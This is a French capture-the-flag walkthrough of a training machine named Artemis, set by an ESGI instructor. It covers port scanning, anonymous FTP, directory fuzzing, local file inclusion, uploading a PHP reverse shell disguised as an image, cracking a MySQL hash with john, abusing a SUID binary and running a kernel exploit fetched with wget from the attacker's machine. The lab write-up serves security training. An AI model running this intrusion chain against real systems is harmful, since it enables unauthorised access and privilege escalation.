 

 <h2 align="center">Artemis</h2>

 

 <h3 align="left">Table of Contents</h4>

<ol type=I>
      <li><a href="#box">Box</a></li>
      <li><a href="#profile">Profile</a></li>
      <li><a href="#enumeration">Information Gathering</a></li>
      <ol>
          <li><a href="#1.scan port">Scan Port</a></li>
          <li><a href="#2.ftp">FTP</a></li>
          <li><a href="#3.web">Web</a></li>
      </ol>
      <li><a href="#exploit">Exploit</a></li>
	  <li><a href="#privilege escalation">Privilege Escalation</a></li>
      <ol>
          <li><a href="#1.hidden">Hidden</a></li>
          <li><a href="#2.surprise">Surprise</a></li>
    </ol>

 <h4 align="left">Box</h4>

 <h4 align="left">Information Gathering</h4>

Débutons par un traditionnel scan de port.

 <h6 align= "left"><U>1.Scan Port</U></h6>

> sudo nmap -sSV -sC  -p- 192.168.52.131

- `-sV : Détection de version sur les services utilisé.`
- `-sS :  SYN Scan, scan plutôt furtif.`
- `-sC : Exécute une série de scripts sur les services trouvé.`
- `-p- : Scan tous les ports existant.`

On peut voir que le port 80(http) est ouvert et que les ports 25452(ssh) ainsi que 61337(ftp) sont ouverts sur des ports différents.

Grâce aux scripts lancés par nmap, on peut constater que le partage ftp autorise la connexion au utilisateur anonyme, de plus le ftp contient des fichiers visibles sur le nmap.

 <h6 align= "left"><U>2.FTP</U></h6>

> ftp 192.168.52.131 61337

Name: Anonymous

Password: Anonymous

Plusieurs fichiers sont contenus dans le ftp.

Exportons tout ça.

Regardons le contenu de ses fichiers.

Letter.txt :

La seule information intéressante dans ce fichier, est qu'il nous dit que les autres fichiers contiennent des logs.

auth.log :

À première vue, il n'y a pas grand chose d'intéressant.

access.log :

Dans ce fichier, on peut voir que des requêtes sont faites vers le serveur web, filtrons les requêtes uniquement réussies afin de voir si des répertoires seraient dévoilés(réponse 200).

> cat access.log | grep 200

On voit une requête vers un dossier avec un nom assez atypique, allons voir ça de plus près.

 <h6 align= "left"><U>3.Web</U></h6>

Nous voilà sur une page secrète de l'ESGI, énumérons les sous dossiers.

> ffuf -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://192.168.52.131/0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/FUZZ

- `-w : Chemin vers la wordlist à utiliser.`
- `-u : Déclaration de la cible et du répertoire à énumérer.`

On découvre un dossier uploads accessible.

Regardons ça de plus près.

On trouve un répertoire qui liste tous les fichiers/dossiers présent à l'intérieur, si un dossier et nommé `uploads`, c'est qu'il doit exister un autre dossier où l'on peut upload des fichiers.

Allons tester les extensions php.

> ffuf -w /usr/share/SecLists/Discovery/Web-Content/common-PHP-Filename.txt -u http://192.168.52.131/0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/FUZZ



2 nouveaux dossiers ont été découverts un upload.php (sûrement l'upload de fichier) et un language.php.

upload.php :

Comme pensé un système d'upload testons d'injecter un reverse shell en php.

L'upload nous bloque les extensions autres que les images(.jpeg, .png..), revenons dessus plus tard et allons voir l'autre dossier.

language.php :

En regardant l'URL on peut voir qu'il utilise des fichiers php, testons une attaque LFI.



Pas d'erreur, tentons encore plusieurs retours en arrière(../)



Bingo, on peut bien exécuter des fichiers dessus.



Étant donné que cette page exécute du code php, si on upload une image contenant du code php, il devrait l'exécuter.

 <h4 align="left">Exploit</h4>

Pour le revershell shell, j'utilise celui du github de pentestmonkey.

On attribue l'ip de la machine attaquante, ainsi que le port que l'on va ouvrir pour recevoir la connexion de la cible.

Maintenant, allons upload le reverse shell.



Parfait vérifions dans le dossier upload.

On va débuter une écoute sur le port défini, dans le reverse shell.

> nc -lnvp 4444

Retournons dans language.php pour exécuter le reverse shell.

Étant donné que les deux dossiers sont dans le même répertoire, il suffit de mettre le chemin /uploads/rev.php.jpg.



Nous voilà avec un shell sur l'utilisateur www-data.

 <h4 align="left">Privilege Escalation</h4>

Nous allons commencer par le chemin hidden.

www-data -> eguillemot -> khennou -> root

 <h6 align= "left"><U>1.Hidden</U></h6>

Étant donné qu'il existe des formulaire en php, cela nous permet de déduire qu'il y a une base de données vers qui le php envoi des requêtes(sûrement sql).

> find / -name *.sql -type f 2>/dev/null



Nous voilà avec le mdp hash de l'utilisateur eguillemot.



Avec hash-identifier on retrouve le hash utiliser,  dans notre cas, c'est le mysql-sha1.



Stockons le mdp chiffré dans un fichier temporaire.

> echo -n '*B38E48ED65DF090D475F5F25E030D183BC140ECD' > abc.txt
>

Vérifions si john possède ce type de hash.

> john --list=formats | grep mysql

John le connais, parfait, on peut donc tenter de trouver le mot de passe.

Étant donnée que je l'ai déjà fait, il me dit que john le possède déjà dans ses logs.

> john --format=mysql-sha1 abc.txt

Nous voilà avec le mot de passe de l'utilisateur guillemot qui est esgi.

Nous voilà connectés sur le user eguillemot



flag user.txt:

Tentons maintenant d'accéder à l'utilisateur khennou.

> find / -perm /4000 -user khennou 2>/dev/null

Grâce à la commande find et son option -perm 4000 on sait qu'il y a un SUID de l'utilisateur khennou sur la commande whois.

En exécutant whois, on aperçoit que rien ne s'affiche, or la commande par défaut affiche au moins une erreur, cela veut dire que ce n'est pas la vrais commande whois.

Exportant le binaire sur notre machine pour voir exactement ce qu'il fait.

Analyse static:

En utilisant l'outil cutter et son outil décompilé, on voit qu'elle exécute un shell bash avec l'id de l'utilisateur(khennou dans notre cas), on voit de plus qu'il fait une comparaison entre l'adresse var_24h et s2.

Analyse dinamique:

Sur gdb on voit qu'il compare les variables RSI ainsi que RDI, le code est affiché en clair dans la variable RSI (étant donné que rdi est notre input).

Nous voilà maintenant avec l'utilisateur khennou.

En regarde les droits sudo, on voit que cet utilisateur possède les droits root sans mot de passe.

flag root.txt:

Le chemin surprise consiste à passer de l'utilisateur eguillemot à root.

 <h6 align= "left"><U>2.Surprise</U></h6>

En récupérant la version du kernel et en faisant un searchsploit on voit qu'elle est vulnérable.

La CVE nous renvoie vers le script suivant :

www.halfdog.net/Misc/Utils/UserNamespaceExec.c

Compiler le code c:

> gcc UserNamespaceExec.c -o UserNamespaceExec

On ouvre un serveur web afin de récupérer le script sur la machine distante.

> wget 192.168.52.128:8000/UserNamespaceExec



> chmod +x UserNamespace

Rendre le script exécutable.



> ./UserNamespaceExec -- /bin/bash

Cela conclut donc la box <u>Artemis</u> donné par notre formateur <u>Thibaud Robin</u> de <u>l'ESGI</u>.

<u>Ethost.</u>